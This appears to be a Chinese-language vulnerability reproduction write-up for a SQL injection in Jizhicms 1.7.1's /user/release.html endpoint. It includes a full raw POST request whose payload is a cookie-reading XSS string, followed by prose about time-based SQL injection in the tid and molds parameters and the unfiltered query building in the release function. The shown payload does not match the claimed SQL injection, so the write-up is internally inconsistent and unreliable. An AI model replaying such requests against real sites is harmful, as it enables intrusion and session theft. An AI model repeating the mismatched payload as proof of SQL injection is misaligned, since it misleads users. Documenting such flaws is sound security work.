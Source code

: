 Jizhicms 1.7.1 ./user/release.html sql注入漏洞
==============================================

一、漏洞简介
------------

二、漏洞影响
------------

Jizhicms 1.7.1

三、复现过程
------------

同样还是在发表文章这

    POST /user/release.html HTTP/1.1
    Host: www.0-sec.org:8091
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
    Accept: application/json, text/javascript, */*; q=0.01
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 153
    Origin: http://www.0-sec.org:8091
    Connection: close
    Referer: http://www.0-sec.org:8091/user/release/molds/article.html
    Cookie: PHPSESSID=84mcpgsvrgnfag0fnl3ngjm2eo; XDEBUG_SESSION=PHPSTORM

    ajax=1&isshow=&molds=article&tid=2&title=%3Cdetails+open+ontoggle%3D+confirm(document%5B%60coo%60%2B%60kie%60%5D)%3E&keywords=123&litpic=&description=123

![1.png](./.resource/Jizhicms1.7.1._user_release.htmlsql注入漏洞/media/rId24.png)![2.png](./.resource/Jizhicms1.7.1._user_release.htmlsql注入漏洞/media/rId25.png)可以看到有明显的时间延迟，存在基于时间的延迟注入为了直观的展示是否进行了拼接sql语句的操作，监控下sql语句的执行，在mysql监控工具中可以看到没有任何过滤就进行了sql语句的拼接，触发了sql注入漏洞![3.png](./.resource/Jizhicms1.7.1._user_release.htmlsql注入漏洞/media/rId26.png)定位到漏洞函数release函数，重点关注下sql语句的拼接问题，一共有两处进行了sql的拼接，只要在进行拼接前没有进行过滤就会存在sql注入漏洞![4.png](./.resource/Jizhicms1.7.1._user_release.htmlsql注入漏洞/media/rId27.png)其中\$this-\>classtypedata对应的是数据库中的classtype表中的数据![5.png](./.resource/Jizhicms1.7.1._user_release.htmlsql注入漏洞/media/rId28.png)然后跟进到get\_fields\_data函数，根据xdebug调试代码的运行情况，发现fields为空，所以会直接返回data,其中并没有进行任何过滤![6.png](./.resource/Jizhicms1.7.1._user_release.htmlsql注入漏洞/media/rId29.png)在release函数函数中只是要求\$w\[\'tid\'\]!=0即可，所以我们可以在tid参数和molds参数处构造sql注入语句![7.png](./.resource/Jizhicms1.7.1._user_release.htmlsql注入漏洞/media/rId30.png)用slmap跑的结果![8.png](./.resource/Jizhicms1.7.1._user_release.htmlsql注入漏洞/media/rId31.png)

参考链接
--------

> https://xz.aliyun.com/t/7861\#toc-2
